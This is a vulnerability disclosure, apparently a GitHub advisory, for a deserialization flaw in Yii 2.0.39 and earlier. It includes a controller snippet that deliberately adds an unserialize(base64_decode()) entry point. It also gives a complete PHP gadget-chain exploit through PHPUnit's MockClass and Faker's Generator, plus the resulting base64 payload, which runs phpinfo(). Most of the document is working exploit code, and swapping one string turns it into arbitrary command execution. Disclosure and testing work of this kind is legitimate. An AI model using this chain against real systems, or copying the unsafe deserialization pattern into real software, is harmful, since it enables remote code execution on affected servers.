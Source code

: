 ## Vulnerability description

Yii version <=2.0.39 has a deserialization vulnerability. If the framework is referenced and there is a deserialization entry point, an attacker can achieve arbitrary command execution through deserialization. 

The exploitation point is in the generate() method of phpunit\src\Framework\MockObject\MockClass.php

## Affects Version

Yii <= 2.0.39

## vulnerability proof

yii2 v2.0.39 php v7.3.4

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/file-20250317213218097.png)

When setting up the environment, remember to assign a value to cookieValidationKey in config/web.php, and then add a deserialization entry in the actionIndex() method of controllers\SiteController.php.

```php
public function actionIndex()  
{  
    $name = Yii::$app->request->get('input');  
    unserialize(base64_decode($name));  
    return $this->render('index');  
}
```

EXP

```php
<?php   
namespace PHPUnit\Framework\MockObject{  
    final class MockClass{  
        public $mockName;  
        public $classCode;  
        public function  __construct()  
        {  
            $this->mockName = "MockClass";  
            $this->classCode = "phpinfo();";  
        }  
    }  
  
}  
namespace PHPUnit\Framework {  
  
    class TestSuite  
    {  
        public $iteratorFilter;  
    }  
}  
namespace Faker{  
use PHPUnit\Framework\MockObject\MockClass;  
    class Generator{  
        public $formatters;  
        public function __construct() {  
            $this->formatters['factory'] = [new MockClass(), 'generate'];  
        }  
    }  
  
}  
namespace SebastianBergmann\RecursionContext{  
    final class Context  
    {  
        public $arrays;  
    }  
  
    $a = new Context();  
    $a->arrays = new \PHPUnit\Framework\TestSuite();  
    $a->arrays->iteratorFilter = new \Faker\Generator();  
    echo base64_encode(serialize($a));  
}
```

After serialization

```
Tzo0MjoiU2ViYXN0aWFuQmVyZ21hbm5cUmVjdXJzaW9uQ29udGV4dFxDb250ZXh0IjoxOntzOjY6ImFycmF5cyI7TzoyNzoiUEhQVW5pdFxGcmFtZXdvcmtcVGVzdFN1aXRlIjoxOntzOjE0OiJpdGVyYXRvckZpbHRlciI7TzoxNToiRmFrZXJcR2VuZXJhdG9yIjoyOntzOjEwOiJmb3JtYXR0ZXJzIjthOjE6e3M6NzoiZmFjdG9yeSI7YToyOntpOjA7TzozODoiUEhQVW5pdFxGcmFtZXdvcmtcTW9ja09iamVjdFxNb2NrQ2xhc3MiOjI6e3M6ODoibW9ja05hbWUiO3M6OToiTW9ja0NsYXNzIjtzOjk6ImNsYXNzQ29kZSI7czoxMDoicGhwaW5mbygpOyI7fWk6MTtzOjg6ImdlbmVyYXRlIjt9fXM6MzoiYWFhIjtOO319fQ==
```

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/file-20250317213414420.png)
